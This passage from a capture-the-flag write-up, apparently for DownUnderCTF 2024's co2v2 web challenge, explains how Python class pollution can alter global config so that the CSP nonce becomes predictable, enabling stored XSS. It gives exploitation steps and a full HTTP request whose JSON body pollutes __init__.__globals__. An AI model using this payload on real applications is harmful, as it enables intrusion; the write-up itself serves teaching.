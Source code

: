 ```python
        f"script-src-attr 'self' 'nonce-{nonce}'; " 
        f"connect-src *; "
    )
    response.headers['Content-Security-Policy'] = csp_policy
    return response
```

**`co2v2/src/app/utils.py`:**
```python
def generate_random_string(length=16):
    characters = string.ascii_letters + string.digits
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string
```

As you can see, the nonce is SHA256 hashed, and the input is `SECRET_NONCE<request_path><random_strings_with_RANDOM_COUNT_length>`.

Ah ha! We can also **pollute the `SECRET_NONCE` to be a string of anything**, and **`RANDOM_COUNT` to be integer `0`**. By doing so, the SHA256 input is: `<anything_we_want><request_path><empty_string>`.

Nice! We now get a full-blown **stored XSS with CSP bypass via Python class pollution**!

## Exploitation

Putting everything together, we can get the flag via:

1. Exploit Python class pollution to pollute `TEMPLATES_ESCAPE_ALL = False`, `SECRET_NONCE = 'literally_anything'`, and `RANDOM_COUNT = 0` via POST route `/save_feedback`
2. Update Jinja environment's `autoescape` attribute via POST route `/admin/update-accepted-templates`
3. Create a new blog post with XSS payload, and make it public
4. Report to admin
5. Get the flag!

Let's do it!

- Python class pollution

```http
POST /save_feedback HTTP/2
Host: web-co2v2-bf232bafe3979c0d.2024.ductf.dev
Cookie: session=.eJwlzssNwjAMANBdcuZgx5_GLIPs2BFcW3pC7A6IAZ70Xu229jru7frcz7q02yPbtQUDuBAQ2cIhNeZin-aoPS20Wzh3FSzWDCjm6FwZPir77OghGT_i2JOQFGKA6BDQKU4EkTotS2aNTdl8MdbMZbWRbR6jfSPnUft_g-39Ad-_MBE.Zoz09Q.LpfMqtgQWdTNmul74tzeLx41pjU
Content-Length: 337
Content-Type: application/json

{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "TEMPLATES_ESCAPE_ALL": false,
            "SECRET_NONCE": "literally_anything",
            "RANDOM_COUNT": 0
        }
    }
}
```
